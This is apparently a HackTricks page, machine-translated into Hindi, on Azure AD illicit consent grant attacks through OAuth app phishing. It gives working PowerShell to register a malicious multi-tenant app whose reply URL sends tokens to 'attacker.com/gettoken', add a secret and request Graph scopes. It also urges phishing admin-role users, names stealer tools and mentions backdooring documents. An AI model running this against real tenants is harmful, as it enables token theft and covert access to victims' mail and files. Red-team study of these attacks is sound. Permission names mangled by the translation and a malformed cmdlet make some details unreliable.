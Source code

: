 # Az - अनधिकृत सहमति प्रदान

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में** देखना चाहते हैं या **HackTricks को PDF में डाउनलोड** करना चाहते हैं तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## OAuth ऐप फिशिंग

**Azure एप्लिकेशनें** **उपयोगकर्ता डेटा** तक पहुंचने की अनुमति के लिए अनुमतियाँ मांगती हैं (मौलिक जानकारी, लेकिन दस्तावेज़ तक पहुंचने, ईमेल भेजने...).\
यदि **स्वीकृति दी जाती है**, एक सामान्य उपयोगकर्ता केवल **"कम प्रभाव" अनुमतियों** के लिए स्वीकृति दे सकता है। **अन्य सभी** मामलों में, **प्रशासक स्वीकृति आवश्यक है**।\
`GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` और `अनुमतियों को एप्लिकेशनों को अनुमति देने की अनुमति` शामिल करने वाली एक कस्टम भूमिका टेनेंट-व्यापी स्वीकृति प्रदान कर सकती है।

केवल वे अनुमतियाँ जो **प्रशासक स्वीकृति की आवश्यकता नहीं है** को **कम प्रभाव** के रूप में वर्गीकृत किया जाता है। ये अनुमतियाँ **मौलिक साइन-इन के लिए आवश्यक हैं openid, profile, email, User.Read और offline\_access**। यदि **संगठन** **सभी ऐप्स के लिए** उपयोगकर्ता स्वीकृति की अनुमति देता है, तो किसी कर्मचारी को अपनी प्रोफ़ाइल से उपरोक्त को पढ़ने के लिए ऐप को स्वीकृति देने की अनुमति दे सकता है।

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

इसलिए, एक हमलावर एक **कुटिल ऐप** तैयार कर सकता है और फिशिंग के साथ, उपयोगकर्ता को **ऐप स्वीकार करने और उसके डेटा को चुरा लेने** के लिए मजबूर कर सकता है।

### जांचें कि उपयोगकर्ताओं को स्वीकृति देने की अनुमति है

निम्नलिखित PowerShell कमांड का उपयोग किया जाता है उपयोगकर्ताओं के लिए अनुमतियों की व्यवस्था की जांच करने के लिए Azure Active Directory (Azure AD) में उनकी योग्यता के संबंध में ऐप्लिकेशनों को स्वीकृति देने के लिए:
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **उपयोगकर्ता सहमति अक्षम करें**: इस सेटिंग से उपयोगकर्ताओं को अनुमतियाँ देने से रोका जाता है। किसी भी एप्लिकेशन को उपयोगकर्ता से सहमति देने की अनुमति नहीं है।
* **उपयोगकर्ता सत्यापित प्रकाशकों या आपके संगठन से एप्लिकेशन को स्वीकृति देने की अनुमति है, लेकिन केवल आपके द्वारा चयनित अनुमतियों के लिए**: इस सेटिंग से सभी उपयोगकर्ताओं को केवल उन एप्लिकेशनों को स्वीकृति देने की अनुमति है जो एक सत्यापित प्रकाशक द्वारा प्रकाशित होते हैं और आपके खुद के टेनेंट में पंजीकृत एप्लिकेशन होते हैं। यह एक निश्चित अनुमतियों के लिए सिर्फ एक तह जोड़ता है।
* **उपयोगकर्ता सभी एप्लिकेशनों को स्वीकृति देने की अनुमति है**: इस सेटिंग से अधिक स्वीकृति है और सभी उपयोगकर्ताओं को किसी भी अनुमतियों को स्वीकृति देने की अनुमति है, जब तक वे प्रशासनिक सहमति की आवश्यकता नहीं है।
* **कस्टम एप्लिकेशन सहमति नीति**: इस सेटिंग से यह स्पष्ट होता है कि एक कस्टम नीति लागू है, जो विशेष संगठनिक आवश्यकताओं के अनुसार अनुकूलित किया जा सकता है और एप्लिकेशन प्रकाशक, एप्लिकेशन द्वारा अनुरोधित अनुमतियों और अन्य कारकों पर प्रतिबंधों का एक संयोजन शामिल हो सकता है।

## **अवैध सहमति प्रदान हमले को समझना**

एक अवैध सहमति प्रदान हमले में, हमलावर अंत उपयोगकर्ताओं को धोखा देकर एक दुरुपयोगी एप्लिकेशन को जिसे एज़्यूर में पंजीकृत किया गया है के लिए अनुमतियाँ प्रदान करने में सफल होते हैं। इसे एप्लिकेशन को विश्वसनीय बनाकर किया जाता है, जिससे पीड़ितों को अनजाने में "स्वीकार" बटन पर क्लिक करने पर ले जाता है। इसके परिणामस्वरूप, एज़्यूर एडी अटैकर की साइट को टोकन जारी करता है, जिससे उन्हें पीड़ित के डेटा तक पहुंचने और उसे संशोधित करने की अनुमति मिलती है, जैसे कि ईमेल पढ़ना या भेजना और फ़ाइलों तक पहुंचना, संगठनिक खाता की आवश्यकता के बिना।

## **हमले की प्रवाह अवलोकन**

हमला कई कदमों को लक्ष्य रूप से लेता है। यहाँ यह कैसे विकसित हो सकता है:

1. **डोमेन पंजीकरण और एप्लिकेशन होस्टिंग**: हमलावर एक विश्वसनीय साइट की तरह दिखने वाला डोमेन पंजीकृत करता है, उदाहरण के लिए, "सुरक्षितडोमेनलॉगिन.कॉम"। इस डोमेन के अंतर्गत, एक उप-डोमेन बनाया जाता है (जैसे, "कंपनीकानाम.सुरक्षितडोमेनलॉगिन.कॉम") जिसमें एक एप्लिकेशन होस्ट किया जाता है जो अधिकृतिकोड को जब्त करने और एक्सेस टोकन का अनुरोध करने के लिए डिज़ाइन किया गया है।

2. **एज़्यूर एडी में एप्लिकेशन पंजीकरण**: फिर हमलावर अपने एज़्यूर एडी टेनेंट में एक मल्टी-टेनेंट एप्लिकेशन पंजीकृत करता है, जिसे लक्ष्य कंपनी के नाम से विश्वसनीय दिखने के लिए नामित किया गया है। वे एप्लिकेशन के रीडायरेक्ट यूआरएल को ऐसा कॉन्फ़िगर करते हैं जो दुरुपयोगी एप्लिकेशन को होस्ट करने वाले उप-डोमेन पर पहुंचाता है।

3. **अनुमतियों की सेटिंग**: हमलावर एप्लिकेशन को विभिन्न एपीआई अनुमतियों के साथ सेटअप करता है (जैसे, `मेल.पढ़ें`, `नोट्स.पढ़ें.सभी`, `फ़ाइलें.पढ़ेंलिखें.सभी`, `उपयोगकर्ता.पढ़ेंबेसिक.सभी`, `उपयोगकर्ता.पढ़ें`)। इन अनुमतियों को एक बार उपयोगकर्ता द्वारा स्वीकृति प्राप्त की जाने पर, हमलावर को उपयोगकर्ता के पक्ष में संवेदनशील जानकारी निकालने की अनुमति होती है।

4. **दुरुपयोगी लिंक वितरण**: हमलावर दुरुपयोगी एप्लिकेशन के क्लाइंट आईडी को समेत करता हुआ एक लिंक तैयार करता है और इसे लक्षित उपयोगकर्ताओं के साथ साझा करता है, उन्हें सहमति देने में धोखा देता है।

## **हमले के लिए उपकरणों का उपयोग**

हमला [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer) जैसे उपकरणों का उपयोग करके सुविधाजनक हो सकता है।

### हमले से पहले तैयारी:
यदि हमलावर को पीड़ित संगठन में किसी उपयोगकर्ता के स्तर पर कुछ पहुंच है, तो वह जांच सकता है कि क्या संगठन की नीति उपयोगकर्ता को एप्लिकेशन स्वीकार करने की अनुमति देती है:
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
For executing the attack, the attacker would need to create a **new App in their Azure Tenant** (in App registrations), configured with the permissions:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All` is inside `Microsoft Graph` in `Delegated permissions`. (Application permissions will always need extra approval).

* `User.ReadBasic.All` is the permission that will allow you to **read information of all the users** in the organization if granted.
* Remember that only `GA`, `ApplicationAdministrator`, `CloudApplication` `Administrator` and a custom role including `permission to grant permissions to applications` can provide tenant-wide consent. So, you should **phish a user with one of those roles** if you want him to approve an **App that requires admin consent**.

You could also create an App via cli with:

{% code overflow="wrap" %}
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

इसे कॉन्फ़िगर करने के लिए [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) देखें।

{% hint style="warning" %}
ध्यान दें कि प्राप्त **एक्सेस टोकन** ग्राफ़ एंडपॉइंट के लिए होगा जिसमें स्कोप्स होंगे: `User.Read` और `User.ReadBasic.All` (अनुरोधित अनुमतियाँ)। आप अन्य क्रियाएँ करने में सक्षम नहीं होंगे (लेकिन ये पर्याप्त हैं **संगठन में सभी उपयोगकर्ताओं के बारे में जानकारी डाउनलोड करने के लिए**)।
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

आप इस हमला करने के लिए इस उपकरण का भी उपयोग कर सकते हैं।

## पोस्ट-एक्सप्लोइटेशन

एक बार जब आप उपयोगकर्ता का एक्सेस प्राप्त कर लेते हैं, तो आप चीजें चुरा सकते हैं जैसे कि संवेदनशील दस्तावेज़ और यहाँ तक कि वापस अपलोड किए गए दस्तावेज़ फ़ाइलें में बैकडोर डाल सकते हैं।

## संदर्भ

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी कंपनी का विज्ञापन देखना चाहते हैं HackTricks में या HackTricks को PDF में डाउनलोड करना चाहते हैं तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) पर **फ़ॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos को PRs सबमिट करके।

</details>
